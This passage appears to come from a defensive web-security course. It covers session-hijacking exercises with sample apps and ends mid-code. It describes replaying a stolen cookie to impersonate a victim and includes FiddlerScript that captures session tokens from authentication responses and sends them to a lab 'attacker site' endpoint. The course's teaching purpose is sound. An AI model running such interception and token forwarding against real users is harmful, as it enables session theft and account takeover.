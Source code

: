 In the Jade\_Express\_MySQL sample, using the cookie editor extension in a different browser, replace the existing cookie with the one you extracted. You are now logged in as the victim. In fact you actually using the same session on the server in this sample - unlike the MEAN_stack sample, where session state is stored in the browser. This means that if the attacker logs out, the victim is logged out too.

*Dev-specific* You may now be idly considering how to automate this process. But then you'd be writing malware, so don't :-). This course is about how to defend your applications.


Exercise 3: Use Fiddler to find unprotected session IDs
-----
We can do some basic filtering using Fiddler's Filters tab - for instance we can set a filter to flag (highlight) either requests which send the X-Auth header or any 200 status response recevived from api/sessions, meaning the authentication process was successful.

Now put this together to customise Fiddler so it complains if any session ID tokens/cookies are sent over HTTP for either of the samples - you should now have a detailed understanding of exactly what you want to catch on each sample app. This will be the basis of our testing for this module - you will just run the apps with Fiddler capturing HTTP requests and flagging the bad ones.

*Test-specific* There are some rules I cooked up earlier in the resources folder to highlight sensitive data in clear - these are specific to these sample apps, they'll need modifying for your real-world apps. @Devs, write your own ;-)

As a further exercise, we can use the Attacker\_site sample with some additional Fiddler rules. The attacker site is a very simple site which collects and displays on screen any data which is sent to its api/logs endpoint as a query parameter on a GET request. The attacker sets this website up, then sits back and watches your secrets roll in. Let's set it up to intercept the session tokens as they are sent back from the server.

Using FiddlerScript - see [http://docs.telerik.com/fiddler/KnowledgeBase/FiddlerScript/ModifyRequestOrResponse](http://docs.telerik.com/fiddler/KnowledgeBase/FiddlerScript/ModifyRequestOrResponse) for more details:

 1. Open the FiddlerRules files: Click Rules => Customized Rules... (or press Ctrl+R)
 2. Go to the method `static function OnBeforeResponse(oSession: Session)`  - or create one if needed
 3. Type the following to catch any authentication response:
```
    if (oSession.HostnameIs("10.10.10.10") && oSession.uriContains("/api/sessions") && oSession.responseCode == 200){
        var origin = oSession.url;
        var type = "[SESSION]";
        var value = System.Text.Encoding.UTF8.GetString(oSession.responseBodyBytes);
        var queryString = System.String.Format("origin={0}&type={1}&value={2}", origin, type, value);
        Handlers.HTTPGet("http://10.10.10.30/api/logs/add",queryString);
    }
 ```
 4. Add an extra method to allow sending HTTP requests:
```
    public static function HTTPGet(Url:System.String, Data:System.String):System.String
    {
        var Out = String.Empty;
        var req = System.Net.WebRequest.Create(Url + (System.String.IsNullOrEmpty(Data) ? "" : "?" + Data));

        try{
            var resp = req.GetResponse();
            var stream = resp.GetResponseStream();
            
            var sr = new System.IO.StreamReader(stream);
            
            Out = sr.ReadToEnd();
            sr.Close();
            stream.Close();
        }
```